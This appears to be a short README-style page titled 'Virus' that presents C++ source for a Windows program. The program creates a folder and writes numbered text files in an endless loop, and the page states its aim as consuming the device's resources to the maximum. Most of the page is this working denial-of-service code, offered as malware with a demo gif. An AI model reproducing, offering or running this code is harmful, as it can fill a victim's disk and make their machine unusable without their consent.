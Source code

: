# Virus
Idea &rarr; Duplicate a file on the device infinitely, and this consumes the device's resources to the maximum.
```c
#include <bits/stdc++.h>
#include <direct.h>
using namespace std;

int main() {

    long long indexFile = 0;
    char const* path = "C:\\Diphro\\";
    _mkdir(path);

    while (true) {
        indexFile++;
        ofstream file (path + to_string(indexFile) +".txt");
    }
}
```
## Run
![Alt text](/images/virus.gif)

